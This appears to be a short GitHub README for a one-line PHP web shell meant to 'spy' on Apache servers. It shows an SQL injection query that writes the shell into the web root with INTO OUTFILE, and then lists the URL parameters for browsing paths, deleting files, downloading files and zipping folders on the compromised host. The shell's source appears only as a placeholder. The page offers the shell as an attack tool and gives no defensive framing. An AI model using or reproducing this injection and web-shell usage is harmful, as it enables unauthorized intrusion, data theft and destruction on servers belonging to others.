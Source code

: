 # SHEL | one line | single File | using PHP to spy apache servers
SHELL compatible with injection SQL

LIKE : `SELECT "'.$phpString.'" INTO OUTFILE "public_html/shell.php"`

# USING

to read path   `?path=c://`

to delete file `?unlink=public_html/shell.php`

to read file   `?download=public_html/shell.php`

to zip folder `?path=public_html/&destination=name_zip_file`

# SQL injection

$phpString = ' replace all char ' with \' ';
